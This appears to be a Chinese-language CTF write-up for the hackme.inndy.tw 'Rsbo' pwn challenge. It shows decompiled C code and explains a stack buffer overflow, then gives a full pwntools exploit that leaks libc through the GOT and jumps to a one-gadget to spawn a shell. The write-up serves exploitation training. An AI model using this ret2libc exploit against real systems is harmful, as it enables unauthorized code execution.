 ```yaml
---
title: hackme.inndy.tw::Rsbo & Rsbo 2
date: 2023-10-17 21:24:55
tags: pwn
---
```


## challenge
`Tips: ROP, open, read`

## 保護機制
NX開啟，Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[80]; // [esp+10h] [ebp-60h]
  int v6; // [esp+60h] [ebp-10h]
  int v7; // [esp+64h] [ebp-Ch]
  int v8; // [esp+68h] [ebp-8h]
  int i; // [esp+6Ch] [ebp-4h]

  alarm(0x1Eu);
  init();
  v8 = read_80_bytes(buf);
  for ( i = 0; i < v8; ++i )
  {
    v3 = rand();
    v7 = v3 % (i + 1);
    v6 = buf[i];
    buf[i] = buf[v3 % (i + 1)];
    buf[v7] = v6;
  }
  write(1, buf, v8);
  return 0;
}
```
### init
```c
void init()
{
  char buf[16]; // [esp+14h] [ebp-24h]
  int fd; // [esp+24h] [ebp-14h]
  unsigned int seed; // [esp+28h] [ebp-10h]
  int i; // [esp+2Ch] [ebp-Ch]

  fd = open("/home/ctf/flag", 0);
  read(fd, buf, 0x10u);
  seed = time(0);
  for ( i = 0; i <= 15; ++i )
    seed = (signed int)(1337 * seed + buf[i]) % 0x7FFFFFFF;
  close(fd);
  memset(buf, 0, 0x10u);
  srand(seed);
}
```
觀察組語可發現 `main()` stack大小小於0x80(128), 而`read_80_bytes()`造成 overflow

因為ASLR, NX 的關係, 需要想辦法ROP

但binary太小, 組不起ROP chain, 因此使用libc

只要Leak GOT, 接著就可以算出libc base & getshell了

## exploit
```python
#!/usr/bin/env python2

from pwn import *
context.log_level = 'debug'

#p = process('rsbo')
p = remote('hackme.inndy.tw', 7706)
e = ELF('rsbo')
libc = ELF('libc-2.23.so.i386')

#Stage 1 (leak read)
payload = '\x00'*108
payload += p32(e.symbols['write']) + p32(e.symbols['_start']) + p32(1) + p32(e.got['read']) + p32(4)
p.send(payload)
libc_base = u32(p.recv(4)) - libc.symbols['read']
print '[+]Libc base at: {}'.format(hex(libc_base))

payload = '\x00'*108
payload += p32(libc_base + 0x5faa5)
p.send(payload)

p.interactive()
p.close()
```
shell連上去之後可以拿到2個 Flag